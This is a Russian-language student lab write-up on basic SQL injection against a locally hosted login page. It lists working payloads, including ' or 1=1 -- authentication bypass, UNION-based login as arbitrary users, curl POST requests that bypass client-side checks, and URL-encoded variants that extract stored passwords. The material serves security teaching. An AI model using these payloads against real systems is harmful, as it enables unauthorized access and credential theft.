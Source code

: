 # Лабораторная работа 3
Примитивные SQL инъекции.

## Задание 1
### Запустить сайт из VSCode.

Для начала создадим базу данных с несколькими пользователями.

   ![database.jpg](https://ie.wampi.ru/2023/01/22/database.jpg)

Настроим соединение в файле **"server.js"**.

   ![connection.png](https://im.wampi.ru/2023/01/22/connection.png)
  
Теперь мы можем запустить сайт.

   ![LoginPage.png](https://ie.wampi.ru/2023/01/22/LoginPage.png)
   
Используя SQL-инъекции можно зайти на сайт не зная пароль.

Для этого нужно в поле пароль ввести:

       1234' or 1=1 --

   ![password1.png](https://ic.wampi.ru/2023/01/22/password1.png)
   
   ![adminlogin.png](https://ic.wampi.ru/2023/01/22/adminlogin.png)
   
Также можно зайти под любым логином, даже под несуществующим.

Для этого нужно в поле пароль ввести:

    123' or 1=1 union select 'zxc' order by 1 desc--

   ![randomLogin.png](https://ic.wampi.ru/2023/01/22/randomLogin.png)
   
   ![zxclogin.png](https://ie.wampi.ru/2023/01/22/zxclogin.png)

## Задание 2
### Обойти клиентскую защиту с помощью curl.

Сначала получим доступ с правильными логином и паролем.

    curl -d "name=admin&pass=password" -X POST http://localhost:8080/signin
   
Теперь попробуем обойти защиту. Получим доступ не зная пароль.

    curl -d "name=admin&pass=12' or 1=1--" -X POST http://localhost:8080/signin
   
Также можно получить доступ под любым логином, используя инъекции из задания 1.

## Задание 3
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded).

    %27 or 1=1; --

## Задание 4
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД. 

Можно получить пароль определенного пользователя.

    %27 union select pass from users where name = %27admin%27--
    
Или вытащить любой пароль.
    
    1%27 union select (select max(pass) from users) order by 1 desc limit 1--
   
   
    

    
 
